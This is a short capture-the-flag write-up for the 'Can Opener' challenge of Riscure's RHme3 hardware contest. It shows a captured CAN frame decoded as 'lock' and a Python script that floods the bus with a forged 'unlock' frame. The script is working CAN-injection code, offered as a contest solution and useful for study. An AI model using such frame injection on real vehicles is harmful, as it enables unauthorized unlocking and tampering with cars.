


Rhme3¶
Rhme3 is a hardware capture the flag challenge by riscure and why this project was started. We work so hard on this project that we did not end up solving the challenge during the contest. The solutions on this page will (I ever solved) be done after the fact.
Can opener¶
Can Opener was probably the most easy challenge for 150 points.
https://github.com/alexei-argus/rhme3dash
Using the setup described in Linux setup we can use candump to dump the messages.
One messages is:
slcan0 332 [8] 6C 6F 63 6B 00 00 00 00
Translated to binary:
rax2 -s 6C 6F 63 6B lock
The challenge is to unlock the car using an unlock message. We shutdown scland and write a python script to do so.
from pyvit import can
from pyvit.hw.cantact import CantactDev
import time
dev = CantactDev("/dev/ttyUSB2")
dev.set_bitrate(50000)
dev.start()
def send_frame(id,data):
frame = can.Frame(id)
frame.data = data
dev.send(frame)
d= list(bytearray("unlock\0\0"))
id = 0x332
while True:
time.sleep(1)
frame = dev.recv()
if frame is not None:
print(frame)
send_frame(id,d)